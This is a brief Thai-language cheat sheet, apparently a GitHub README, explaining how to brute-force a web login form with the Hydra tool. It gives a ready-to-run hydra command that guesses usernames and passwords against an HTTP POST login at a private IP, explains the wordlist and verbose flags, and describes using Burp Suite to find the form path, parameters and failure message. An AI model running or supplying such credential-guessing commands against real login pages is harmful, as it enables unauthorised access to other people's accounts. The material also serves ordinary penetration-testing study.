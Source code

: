 # HAILHYDRA
# how to hydra  </br>
$ hydra -L username.txt -p aaa 192.168.x.x -V http-form-post "/PATH/login:username=^USER^&password=^PASS^:Invalid username" </br>

--username </br>
-l ชื่อหนึ่งชื่อ </br>
-L wordlist </br>

--password </br>
-p รหัสหนึ่งรหัส </br>
-P wordlist </br>

-V โชว์ รหัส พาส ระหว่างเดา </br>

path:parameters:F </br>
ในส่วนนี้ใช้ burb suit ดูได้ </br>
"/PATH/login.php     :   username=^USER^&password=^PASS^    :      F=Invalid username" </br>

username, password มาจากเว็บ </br>

^USER^ --> username ที่ต้องการให้เดา </br>
^PASS^ --> password ที่ต้องการให้เดา
